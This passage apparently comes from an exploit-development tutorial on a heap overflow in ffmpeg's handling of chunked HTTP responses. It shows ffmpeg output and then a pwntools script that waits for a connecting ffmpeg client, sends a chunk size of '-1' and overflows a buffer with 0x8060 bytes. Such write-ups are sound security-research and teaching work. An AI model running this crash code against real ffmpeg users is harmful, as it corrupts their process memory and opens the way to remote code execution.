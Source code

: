 ```shell
      encoder         : Lavc57.64.101 ac3
Stream mapping:
  Stream #0:0 -> #0:0 (h264 (native) -> mpeg4 (native))
  Stream #0:1 -> #0:1 (aac (native) -> ac3 (native))
Press [q] to stop, [?] for help
frame=  132 fps= 36 q=31.0 Lsize=
903kB time=00:00:05.31 bitrate=1393.3kbits/s speed=1.47x
video:596kB audio:290kB subtitle:0kB other streams:0kB global headers:0kB muxing
overhead: 1.899860%
```

## Developing the Exploit

### Basic Crash Implementation

To begin with, we can start with a basic skeleton of a python script that is
sufficient to cause a crash in `ffmpeg`.

```python
#!/usr/bin/python

from pwn import *
import time
import socket

# HTTP Headers

headers = """HTTP/1.1 200 OK
Server: PwnServ/v1.0
Date: Sun, 11 Mar 1994 13:37:00 GMT
Content-Type: text/html
Transfer-Encoding: chunked

"""

def main():
    # Start a listener and wait for a connection from ffmpeg
    p = listen(12345)

    p.wait_for_connection()
    log.success("Victim found!")

    # Initialise the ffmpeg instance and prepare it for the bug
    p.send(headers)

    # Trigger the bug with the overly large read
    p.sendline("-1")
    log.info("Bug triggered. Please wait for two seconds...")
    time.sleep(2)   # The sleep allows for a clean transmission boundary

    payload  = "A" * 0x8060

    # Send the entire payload
    log.info("Payload sent!")
    p.send(payload)

    # Close the socket to terminate the read on the ffmpeg end to process the
    # overwrite
    p.close()

if __name__ == '__main__':
    main()
```
